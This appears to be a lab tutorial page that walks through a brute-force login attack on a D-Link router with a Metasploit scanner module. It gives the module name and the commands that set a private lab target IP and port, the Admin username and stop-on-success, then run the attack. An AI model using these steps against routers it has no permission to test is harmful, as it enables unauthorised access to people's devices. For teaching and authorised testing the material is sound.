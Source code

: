 +++
title = "Brute Force Login"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++


We can see if the login has been configured with weak credentials by using a brute force attack with a password list. There are several tools to do this. We will use a Metasploit.

## Metasploit

Metasploit is an exploitation framework that will allow us to select a target and run different modules. We will use a module created to automate login attempts against some dlink routers.

In a terminal, open up Metasploit. This will take a few seconds to boot up.

```bash
msf
```
You will eventually get a console session.

![images/msfconsole.png](/static/msfconsole.png)

Search for a `dlink` module thats an `auxiliary` type.
```
search dlink type:auxiliary
```
We get several results back.

![images/msf_search_dlink_results.png](/static/msf_search_dlink_results.png)

We will be using the `dlink_dir_session_cgi_http_login` module.

```
use scanner/http/dlink_dir_session_cgi_http_login
```
Each module has several fields that need to be set to run it. You can these fields by running `show options`.
```
show options
```
![images/dir815-show-options.png](/static/dir815-show-options.png)

Set the remote target IP.
```
set RHOSTS 172.21.0.23
```
Set the remote port
```
set RPORT 8080
```
Change the username to `Admin`.
```
set USERNAME Admin
```
Lastly, tell the module to stop once it finds a password
```
set STOP_ON_SUCCESS true
```

Now if we run `show options` again, we should see our fields updated.
```
show options
```
![images/dir815-options-set.png](/static/dir815-options-set.png)

Run the module
``
run
``

![images/dir815-run.png](/static/dir815-run.png)

The module should continue to try passwords until it finds the correct one.
